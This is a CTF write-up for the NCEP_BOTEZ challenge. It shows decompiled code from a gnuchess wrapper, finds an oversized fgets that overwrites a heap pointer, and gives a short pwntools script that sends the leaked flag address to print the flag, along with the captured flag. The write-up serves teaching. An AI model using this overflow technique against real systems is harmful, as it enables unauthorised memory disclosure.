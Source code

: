 ```yaml
---
title: "OSU League 2020/2021 - NCEP_BOTEZ Writeup"
date: 2021-04-11
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are given a binary that is very similar looking to the one from NCEP_XQC. 
Running the program there is that same GNU chess game that we can interact with, but this time we have no control over the command line arguments, so no injection. Messing around with the program we can see that the only place we have any sort of control is when we make our move:

```
flag loaded at 0x562c0e2e8260
executing command: /usr/games/gnuchess -g -m
GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : 
```

We are also given the location in memory of where the flag is loaded in at, which gives us a clue that whatever our payload is going to be must include it. At this point we started to do some static analysis to see where we could exploit something.

Since there is only one place in the program where we can put in user input, we started our reverse engineering there:

```c++
void get_input(long param_1)

{
  memset((void *)(param_1 + 0x110),0,0x100);
  fgets((char *)(param_1 + 0x110),0x500,stdin);
  return;
}
```

Interseting, it looks like we do an `fgets` to `param_1` plus an offset, but `param_1` is a variable that was passed into this function, so we followed that parameter up to see where it came from. Eventually, we were led to the main function of the program where we can see where it was initilized:

```c++
undefined8 main(void)

{
  void *__ptr;
  void *__ptr_00;
  
  __ptr = (void *)load_flag();
  __ptr_00 = malloc(0x21c);
  init_game(__ptr_00);
  printf("executing command: %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  launch_gnuchess(__ptr_00);
  thread_handler(__ptr_00);
  printf("finished executing command %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  free(__ptr_00);
  free(__ptr);
  return 0;
}
```

So now we know that `void *__ptr_00` is our `param_1`, but what is interesting here is how much it is being reused. We can see that it is used in the first `printf` to print the command that was excecuted, but then it gets passed into the `thread_handler` function, which is what eventually leads to our `fgets` being called. So the same pointer holding the string of our command is also being used for the `fgets`. This normally wouldn't be a problem since a null terminator is used to mark the end of a string, but here we see that quite a large buffer was used to allocate this particular char array. Maybe if we fill up that buffer and put the address of our flag in the string, we can make the second `printf` print the flag. Let's try it out:

```python
from pwn import *
import os, sys

io = remote('ctf.ropcity.com', 31315)

io.recvuntil("flag loaded at ")
addr = int(io.recvline(), 16)

flag = p64(addr)

io.recvuntil("White (1) : ")

payload = flag*100

io.sendline(payload)
io.interactive()
```

And running it we get the flag: 
`osu{ro$eN_w1LL_not_8e_th1$_4givinG}`